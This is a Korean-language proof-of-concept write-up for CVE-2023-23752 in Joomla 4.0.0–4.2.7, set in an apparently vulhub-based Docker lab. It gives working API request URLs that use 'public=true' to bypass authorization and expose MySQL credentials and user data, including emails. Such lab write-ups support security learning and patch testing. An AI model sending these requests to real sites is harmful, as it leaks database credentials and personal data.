 # **CVE-2023-23752 - Joomla improper access check in webservice endpoints Poc**

---

Joomla는 Mysql 데이터베이스를 이용하여 웹 안에서 다양한 컨텐츠를 관리할 수 있고 다양한 언어도 함께 지원하고 PHP 기반 오픈 소스 저작물 관리 시스템입니다.

Joomla 4.0.0부터 4.2.7까지에서 문제가 발견되었습니다.

## 참고 문헌

---

- https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2023-23752
- [https://ko.wikipedia.org/wiki/줌라](https://ko.wikipedia.org/wiki/%EC%A4%8C%EB%9D%BC)

## 취약 환경

---

Joomla 서버 4.2.7을 시작하기 위해 다음 명령어를 실행합니다.

```bash
docker compose up -d
```

서버가 시작된 후, 웹 브라우저에서 [`http://your-ip:8080`](http://your-ip:8080/) 접속할 수 있습니다.

## **Exploit**

---

이 문제는 속성(attribute) 덮어쓰기 문제로 인해 발생하며, 공격자는 `public=true` 값을 사용하여 인가(authorization) 검사를 우회할 수 있습니다.

```bash
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![image.png](attachment:74e75e07-6d1d-44e4-9872-8eaabf560d92:image.png)

MySQL 사용자 이름과 비밀번호를 포함한 것들을 공개:

![image.png](attachment:5c5fcafc-05c9-4edf-848b-9c5b7c3afb9b:image.png)

`public=true` 를 하지 않으면 접근 허가되지 않습니다.

```bash
http://your-ip:8080/api/index.php/v1/users?public=true
```

![image.png](attachment:36ac94fe-0b2e-4c81-8def-64514c75dead:image.png)

이메일을 포함한 모든 사용자 정보를 공개:
